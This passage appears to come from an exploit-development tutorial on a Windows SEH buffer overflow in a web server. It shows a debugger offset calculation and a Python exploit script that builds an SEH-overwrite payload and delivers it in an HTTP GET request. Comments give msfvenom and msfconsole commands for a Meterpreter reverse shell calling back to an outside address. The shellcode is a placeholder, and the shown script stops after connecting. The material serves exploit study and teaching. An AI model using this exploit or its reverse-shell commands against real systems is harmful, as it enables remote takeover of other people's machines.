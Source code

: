 In this case, we can calculate the raw offset between the shellcode on stack and current EIP:

```
0:012> ? 01c6c85a - @eip
Evaluate expression: -14084 = ffffc8fc
```

And then assemble an appropriate jump:

```
jmp 0xffffc8fc
0:  e9 f8 c8 ff ff          jmp    ffffc8fd <_main+0xffffc8fd>
```




## 8. Exploit!

{% code title="sehof_exploit.py" %}
```python
#!/usr/bin/env python3

import socket
import struct

def little_endian(num):
    return struct.pack('<I', num)

host = '127.0.0.1'
port = 80
size = 6000
shellcode_size = 600

shellcode  = b'\x90' * 20
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.13.37 LPORT=1337 EXITFUNC=thread -b "\x00\x09\x0a\x0d\x20" -e x86/shikata_ga_nai -f python -v shellcode
# sudo msfconsole -qx 'use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST eth0; set LPORT 1337; set EXITFUNC thread; run'
shellcode += b"<SHELLCODE>"
shellcode += b'C' * (shellcode_size - len(shellcode))

exp  = little_endian(0x06eb9090)  # (NSEH) jmp +06
exp += little_endian(0x101576c0)  # (PPR) pop eax; pop ebx; ret
exp += b'\x90\x90'                # (NSEH) offset for the 'eb 06' part of the jmp instruction
#exp += b'\x66\x81\xc4\x52\x0f'    # (Island Hop) add sp, 0xf50
#exp += b'\xff\xe4'                # (Island Hop) jmp esp
exp += b'\xe9\xf8\xc8\xff\xff'

filler = b'A' * (2499 - 4)
nop    = b'\x90' * (size - len(filler + exp + shellcode))

buf = filler + exp + shellcode + nop
print(f'buf({len(buf)}): filler({len(filler)}) -> exp({len(exp)}) -> shellcode({len(shellcode)}) -> nop({len(nop)})')

request  = b'GET /' + buf + b'HTTP/1.1' + b'\r\n'
request += b'Host: ' + host.encode() + b'\r\n'
request += b'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.8.0' + b'\r\n'
request += b'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' + b'\r\n'
request += b'Accept-Language: en-US,en;q=0.5' + b'\r\n'
request += b'Accept-Encoding: gzip, deflate' + b'\r\n'
request += b'Connection: keep-alive' + b'\r\n\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
```